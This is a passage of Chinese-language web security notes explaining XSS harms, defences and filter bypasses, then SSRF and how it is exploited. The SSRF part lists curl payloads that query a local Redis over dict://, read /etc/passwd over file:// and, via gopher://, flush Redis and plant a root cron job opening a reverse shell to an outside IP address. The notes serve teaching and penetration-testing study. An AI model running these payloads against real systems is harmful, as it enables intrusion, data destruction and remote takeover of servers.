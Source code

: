 #### xss危害

- 盗用用户的COOKIE
- 修改DOM
- 插入广告（黑页等）
- 发动xss蠕虫攻击
- 劫持用户行为，进一步渗透内网

#### xss修复

- 在服务端进行输入检测，过滤特殊字符
- 对输出内容进行编码转义
- 在html中进行HTMLEncode，javascript中进行JavaScriptEncode，对使用javascriptEncode的变量都放在引号中并转义特殊字符，data部分就无法逃逸出引号成为代码中的一部分了，再严格一些，对所有字母之外的字符使用十六进制编码。
- 设置httponly为true



#### 绕过

- 双写

- 对不能构造script标签的情况下
  使用事件进行绕过

  ```
  <input  value='123' onclick='alert()'>
  ```

- 超链接绕过

  ```
  <a src=javascript:alert()>123</a>
  ```

  

### ssrf

#### 原理

服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。

#### 危害

SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。

内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了运维方便并没有对内网的访问设置权限验证，所以存在SSRF时，通常会造成较大的危害。



#### 利用方式

SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的利用和绕过方式。

以curl为例, 可以使用dict协议操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

```
curl -vvv 'dict://127.0.0.1:6379/info'
 
curl -vvv 'file:///etc/passwd'
 
# * 注意: 链接使用单引号，避免$变量问题
 
curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```

